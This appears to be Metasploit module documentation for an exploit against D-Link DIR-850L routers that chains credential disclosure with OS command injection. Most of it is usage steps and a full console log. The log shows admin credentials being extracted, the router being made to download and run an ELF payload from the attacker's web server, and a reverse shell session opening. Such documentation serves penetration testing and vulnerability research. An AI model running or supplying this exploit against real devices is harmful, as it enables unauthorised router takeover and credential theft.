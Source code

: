 The module dlink_dir850_(un)auth_exec leverages an unauthenticated credential disclosure vulnerability to then execute arbitrary commands via an authenticated OS command injection
vulnerability. D-LINK 850L (excluding "Cloud" models) devices with firmware version up to 1.14B07
are potentially vulnerable. The vulnerability seems to occur within the parsing of the config. Another PoC can be found here https://www.seebug.org/vuldb/ssvid-96333. Setting command to be `reboot` will force the router into an infinite loop.

## Vulnerable Application


  1. Start msfconsole
  2. Do : `use exploit/linux/http/dlink_dir850l_unauth_exec.rb`
  3. Do : `set RHOST [RouterIP]`
  4. Do : `set PAYLOAD linux/mipsbe/shell/reverse_tcp`
  5. Do : `run`
  6. If router is vulnerable, payload should be dropped via wget and executed, and therein should obtain an session


## Example

```
msf > use exploit/linux/http/dlink_dir850l_unauth_exec
msf exploit(dlink_dir850l_unauth_exec) > set RHOST 192.168.0.14
RHOST => 192.168.0.14
msf exploit(dlink_dir850l_unauth_exec) > set RPORT 80
RPORT => 80
msf exploit(dlink_dir850l_unauth_exec) > check
[*] 192.168.0.14:80 The target service is running, but could not be validated.
msf exploit(dlink_dir850l_unauth_exec) > set VERBOSE true
VERBOSE => true
msf exploit(dlink_dir850l_unauth_exec) > set LHOST ens3
LHOST => ens3
msf exploit(dlink_dir850l_unauth_exec) > set LPORT 3131
LPORT => 3131
msf exploit(dlink_dir850l_unauth_exec) > run

[*] Started reverse TCP handler on 192.168.0.11:3131
[*] 192.168.0.14:80 - Connecting to target...
[+] 192.168.0.14:80 - Retrieved the username/password combo Admin/92830535
[+] 192.168.0.14:80 - Downloaded credentials to /root/.msf4/loot/20171104113614_default_192.168.0.14_dlink.dir850l.lo_146186.txt
[*] 192.168.0.14:80 - Starting up web service http://192.168.0.11:8080/ZUrlVeWUm
[*] Using URL: http://0.0.0.0:8080/ZUrlVeWUm
[*] Local IP: http://192.168.0.11:8080/ZUrlVeWUm
[*] 192.168.0.14:80 - Asking target to request to download http://192.168.0.11:8080/ZUrlVeWUm
[*] 192.168.0.14:80 - Waiting for target to request the ELF payload...
[*] 192.168.0.14:80 - Sending payload to the server...
[*] 192.168.0.14:80 - Requesting device to chmod ZUrlVeWUm
[*] 192.168.0.14:80 - Requesting device to execute ZUrlVeWUm
[*] 192.168.0.14:80 - Waiting 10 seconds for shell to connect back to us...
[*] Sending stage (84 bytes) to 192.168.0.14
[*] Command shell session 1 opened (192.168.0.11:3131 -> 192.168.0.14:43953) at 2017-11-04 11:36:26 -0400
[+] Deleted /tmp/uoskutcy
[-] Exploit aborted due to failure: unknown: 192.168.0.14:80 - Shell never connected to us!, disconnect?
[*] Server stopped.
[*] Exploit completed, but no session was created.
msf exploit(dlink_dir850l_unauth_exec) > sessions -i 1
[*] Starting interaction with 1...

190745749
wUVNdEKSrgeaxdSQyfTyxvaoYgFzyvGj
true
pQfaUhhwMvgnWrLpQXhhUAioNBFHPRZP
OgkEaOTPYbUEOLlLpLFEbodBvHFmVRmH
iNaYBrmsZqFyolPWWRKEHsKglrSlSGkY
pwd
/
```
